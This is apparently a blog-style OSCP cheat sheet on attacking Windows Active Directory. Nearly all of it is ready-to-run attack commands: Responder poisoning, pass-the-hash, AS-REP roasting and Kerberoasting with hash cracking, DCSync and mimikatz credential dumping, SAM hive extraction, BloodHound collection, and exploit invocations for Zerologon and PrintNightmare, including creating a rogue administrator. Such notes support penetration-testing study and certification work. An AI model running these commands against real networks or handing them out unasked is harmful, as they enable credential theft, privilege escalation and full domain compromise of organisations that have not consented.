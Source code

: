 ```yaml
---
title: Active Directory
author: linatl
category: "OSCP"
date: "2021-03-14 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Basic Domain Enumeration Commands
```
> net user /domain
> net user some_admin /domain
> net group /domain
> net accounts

Powershell:
> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent
Domain()
```



###### Responder
```
> responder -I eth0 -rdw
```

###### Pass The Hash with CrackMapExec
```

```

###### Pass the Hash with PTH
```
> pth-winexe -U username%hAsHPaRt1:hAsHPaRt2 //10.10.10.10 cmd

```

###### PowerView
```
> Import-Module .\PowerView.ps1
> Get-NetLoggedon -ComputerName computer1
> Get-NetSession -ComputerName dc01
```

###### Kerberos ~ validating usernames
```
https://github.com/ropnop/kerbrute
./kerbrute userenum --dc 10.10.10.10 -d domain.htb users
```


###### Kerberos ~ AS-REP Roasting
```
> impacket-GetNPUsers domain.local/ -format john -usersfile wordlist -no-pass -dc-ip 10.10.10.10
> john tgt-file --wordlist=/usr/share/wordlists/rockyou.txt
```

###### Kerberos ~ Kerberoasting
```
> GetUserSPNs.py -request -dc-ip 10.10.10.10 domain.local/username -save -outputfile tgsfile.out

> hashcat -m 13100 -a 0 tgsfile.out /usr/share/wordlists/rockyou.txt --force
or:
> python3 /usr/share/kerberoast/tgsrepcrack.py wordlist.txt ticketname
```


##### DS-SYNC attacks
```
with impacket-secretsdump:
> impacket-secretsdump domain/username:password@10.10.10.10

with mimikatz:
> Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
> lsadump::dcsync /domain:domain.local /user:Administrator
```

###### Bloodhound
```
Bloodhound documentation:
https://bloodhound.readthedocs.io/en/latest/

Installation:
> sudo apt install bloodhound
> sudo pip3 install bloodhound

First, gather the data with an ingestor, either the bloodhound-python script from fox-it or SharpHound.Then import the json files in the neo4j database.
> (sudo) neo4j console
starts on localhost:7687

Example bloodhound-python:
> bloodhound-python -c All -u 'username' -p 'password' -gc "MACHINE.domain.local" -dc "MACHINE.domain.local" -d "domain.local" -ns 10.10.10.10

Example SharpHound
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
> Import-module .\SharpHound.ps1
> Invoke-Bloodhound -CollectionMethod All [-d domain.local]
Or at once:
> powershell -exec bypass -command "& { Import-Module SharpHound.ps1; Invoke-Bloodhound -CollectionMethod All; }"
```


###### Mimikatz
```
> .\mimikatz.exe
Then:
> privilege::debug
> sekurlsa::logonpasswords
> sekurlsa::tickets
> kerberos::list /export
> sekurlsa::logonpasswords
> sekurlsa::pth /user:some_admin /domain:domain.com /ntlm:hAsHPaRt2 /run:PowerShell.exe
```


###### Zerologon (probably going to break the domain...)
```
> python3 49871.py -do check -target NETBIOSNAME -ip 10.10.10.10
```

###### PrintNightmare
```
https://github.com/calebstewart/CVE-2021-1675/

Run with (in powershell):
> powershell -exec bypass -command "& { Import-Module .\CVE-2021-1675.ps1; Invoke-Nightmare; }"
> Invoke-Nightmare -NewUser "username" -NewPassword "password" -DriverName "PrintMe"
```

###### NoPac
```
https://github.com/cube0x0/noPac
```


###### HiveNightmare
```
https://github.com/GossiTheDog/HiveNightmare

Works on all supported versions of Windows 10, where System Protection is enabled (should be enabled by default in most configurations).
Check for vuln by checking if the patch for CVE-2021–36934 is installed, and by checking if system protection is enabled (with rstrui.exe ?)
```

###### Hashdump
```
Dumping SAM hashes from CMD:
https://miloserdov.org/?p=4129

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Location:
C:/Windows/System32/config/SAM
C:/Windows/System32/config/SYSTEM

Dumping hashes from attack machine:
impacket-secretsdump domain.local/username@10.10.10.10 -just-dc
```
